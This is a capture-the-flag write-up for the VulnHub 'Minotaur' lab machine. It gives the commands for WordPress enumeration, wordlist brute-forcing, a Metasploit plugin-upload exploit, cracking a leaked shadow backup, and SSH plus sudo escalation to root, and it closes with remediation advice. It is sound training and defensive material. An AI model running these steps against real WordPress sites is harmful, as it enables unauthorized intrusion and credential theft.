



# SecTalks: BNE0x00 - Minotaur — Writeup

| | |
|-|-|
| **Target IP** | 192.168.56.223 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | flag.txt per user + /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/sectalks-bne0x00-minotaur,141/) |

## Attack Summary

nmap → WordPress CeWL wordlist → Burp brute (bully:Bighornedbulls) → MSF wp_slideshowgallery_upload → shadow.bak download → john crack → SSH as heffer/minotaur → sudo su → root

## Methodology

1. Network discovery and port scan
2. Enumerate WordPress users and plugins
3. Build site-specific wordlist and brute admin password
4. Exploit vulnerable WordPress plugin for shell
5. Extract shadow.bak, crack with john
6. SSH lateral movement to each user
7. sudo su → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -A 192.168.56.223
```

Open ports: **22** (SSH), **80** (HTTP with WordPress at /bull/), **2020** (SSH alternative).


---

## Step 2: WordPress Enumeration

```bash
wpscan -u http://192.168.56.223/bull/ --enumerate u --enumerate p
```

Found: user **bully**, vulnerable plugin **Slideshow Gallery**.

Build a custom wordlist from the site content:

```bash
cewl http://192.168.56.223/bull -m 3 -w /root/pass.txt
```



---

## Step 3: Brute-force WordPress Login

Using Burp Intruder (or wpscan --passwords) against `wp-login.php`:

```bash
wpscan --url http://192.168.56.223/bull/ -U bully -P /root/pass.txt
```

Password recovered: **Bighornedbulls**

---

## Step 4: Exploit Slideshow Gallery Plugin

```bash
msfconsole -q
use exploit/unix/webapp/wp_slideshowgallery_upload
set RHOSTS 192.168.56.223
set TARGETURI /bull/
set WP_USER bully
set WP_PASSWORD Bighornedbulls
exploit
```

Meterpreter session opens as `www-data`.

```bash
cd /tmp
ls
cat flag.txt
cat shadow.bak
download shadow.bak /root/
```


---

## Step 5: Crack shadow.bak with John

```bash
john shadow.bak
```

Passwords recovered for **heffer** and **minotaur**.



---

## Step 6: SSH into Each User and Get Root

```bash
ssh heffer@192.168.56.223
ls && cat flag.txt

ssh minotaur@192.168.56.223
ls && cat flag.txt
sudo -l
# (ALL : ALL) ALL
sudo su
cat /root/flag.txt
```



---

## Lessons Learned

1. **CeWL-generated wordlists** often crack site-specific passwords that generic lists miss
2. **Slideshow Gallery** (and similar upload plugins) have well-known file-upload-to-RCE vectors
3. **shadow.bak** world-readable in /tmp is a critical misconfiguration
4. **Weak sudo policy** (`ALL : ALL`) grants root to any user with sudo access
5. **Password reuse** across the system makes a single cracked hash a full compromise

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Vulnerable WordPress plugin | Update or remove Slideshow Gallery |
| shadow.bak in world-readable /tmp | Remove backups of /etc/shadow; restrict shadow to root only |
| Full sudo rights for unprivileged users | Apply least-privilege sudo policies |
| Weak user passwords | Enforce strong password policy |
